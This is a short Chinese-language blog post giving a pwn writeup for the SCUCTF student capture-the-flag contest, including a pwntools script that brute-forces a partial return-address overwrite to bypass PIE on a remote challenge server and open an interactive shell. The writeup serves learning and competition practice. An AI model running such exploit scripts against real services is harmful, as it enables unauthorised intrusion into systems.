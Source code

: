 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      SCUCTF_PWN部分writeup 				# 标题 
subtitle:   SCUCTF #副标题
date:       2018-12-30 				# 时间
author:     Mr.R 						# 作者
# header-img: img/post-bg-2015.jpg 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - CTF
---
```


> 朋友说有川大的新生赛.....尝试一下？(毕竟以后说不定还要去呢)



这篇文章仅记录pwn部分题解。感谢师傅们的帮助 毕竟我辣么菜



## 1.u_can_get

普通栈溢出…….就一个ret2syscall......没啥好说的

## 2.can_u_get

仍然是一个普通栈溢出......

但是开了pie,所以我们只需要覆盖ret最后两位,但是因为有一位的开头不知道,就只好爆破撞运气了

1/16呢

```python
from pwn import *
from time import sleep

while True:
    s = remote("119.23.206.23",10002)
    # while True:
    # s = process("./can_u_get(1)")
    # attach(s)
    # raw_input(">")
    padding = "a"*0x20
    padding += p64(1)
    payload = padding+'\xc5\xc8'
    print payload
    print hex(len(payload))
    # raw_input(">")
    s.send(payload)
    sleep(0.1)
    s.interactive()
    s.close()

```
